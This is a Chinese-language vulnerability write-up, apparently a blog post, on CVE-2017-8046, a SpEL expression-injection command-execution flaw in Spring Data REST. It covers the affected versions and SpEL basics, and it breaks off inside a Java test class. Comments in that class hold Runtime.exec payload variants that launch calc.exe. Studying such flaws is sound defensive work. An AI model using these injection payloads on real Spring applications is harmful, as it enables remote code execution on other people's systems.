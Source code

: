 Title: CVE-2017-8046 Spring Data REST命令执行漏洞
Date: 2020-08-04 10:20
Category: 漏洞实践
Tags: Java,Spring Data,漏洞,表达式注入
Slug: 
Authors: bit4woo
Summary: 

# CVE-2017-8046 Spring Data REST命令执行漏洞

如有错误，敬请斧正！

## 漏洞简介



### 简要说明



该漏洞是由于“Spring表达式语言”Spring Expression Language (SpEL) 导致的问题。漏洞原因可以归属于“表达式注入”。

### 影响版本



- Spring Data REST组件的2.6.9 and 3.0.9之前的版本（不包含2.6.9和3.0.9 ）
- Spring Boot （如果使用了Spring Data REST模块）的1.5.9 和 2.0 M6之前的版本



这个漏洞真正影响的就是Spring Data REST组件，完整的名称是 spring-data-rest-webmvc-x.x.x.RELEASE.jar



### 漏洞利用条件



- 真实环境中一般会需要登录系统，除非接口存在未授权访问漏洞

## 基础知识

### Spring Expression Language (SpEL)

```
package com.example.accessingdatarest;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class spelTest {

    public static void main(String[] args) {

        //创建ExpressionParser解析表达式
        ExpressionParser parser = new SpelExpressionParser();
        //表达式放置
        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")");//success

        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")[]");//NullPointerException
        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")[1]");//success
        //Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")[a]");//success
```